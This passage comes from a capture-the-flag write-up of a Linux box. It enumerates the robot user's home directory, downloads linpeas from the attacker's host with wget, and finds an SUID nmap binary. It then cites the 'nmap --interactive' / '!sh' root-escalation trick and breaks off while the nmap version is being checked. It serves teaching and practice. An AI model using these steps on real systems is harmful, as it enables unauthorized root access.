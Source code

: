 We see the sole `/home` dir user with, `robot`:

```bash
daemon@linux:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
```

We have `r-x` perms over this directory and thus can move into it. Here, there are two files:

- `key-2-of-3.txt`
- `password.raw-md5`

```bash
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

We can't do anything with the flag file (`key-2-of-3.txt`) on account of permissions, but the `password.raw-md5` is probably just as interesting; I ultimately decided to give linpeas a quick go before coming back
to this with `hashcat`.

I `wget -o` the `linpeas` script down from my host machine, mark it as executable, and run it:
```bash
daemon@linux:/home/robot$ cd /dev/shm
cd /dev/shm
daemon@linux:/dev/shm$ wget -o- linpeas.sh http://10.4.23.161:4444/linpeas.sh
wget -o- linpeas.sh http://10.4.23.161:4444/linpeas.sh
```

Going over the results, we quickly see the `suid` bit is set on the `nmap` binary:

```sh
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
```
## Privilege Escalation

Taking a quick look at [the nmap page on gtfobins](https://gtfobins.github.io/gtfobins/nmap/#suid), we see that `nmap` versions `2.02` to `5.21` have an interactive mode, and can be used to execute shell commands:

```bash
nmap --interactive
nmap> !sh
```

The vulnerable `nmap` binary is not on system or user `PATH`, so we'll just navigate to it and check its version:
